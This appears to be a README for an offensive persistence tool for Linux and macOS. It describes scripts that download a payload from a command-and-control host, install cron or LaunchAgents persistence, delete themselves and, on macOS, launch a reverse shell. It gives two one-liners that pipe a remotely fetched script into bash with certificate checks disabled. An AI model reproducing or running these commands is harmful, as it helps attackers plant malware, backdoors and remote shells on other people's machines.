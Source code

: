 # Persistence Bash Script for Linux and OSX

### Linux
Script for Linux downloads an elf payload from external url and set cron persistence on reboot, then remove itself. It checks if script is launched as root or as user.

##### ONE LINER LINUX
`$ wget -q --no-check-certificate -O - https://C2C_IP/linux_persistence | bash`

### OSX
Script for OSX downloads a Mach-O file from external url then making persistence downloading a plist and LaunchAgents from external url, lastly executes macho reverse shell.

##### ONE LINER OSX
`$ curl -s -k https://C2C_IP/osx_persistence | bash`

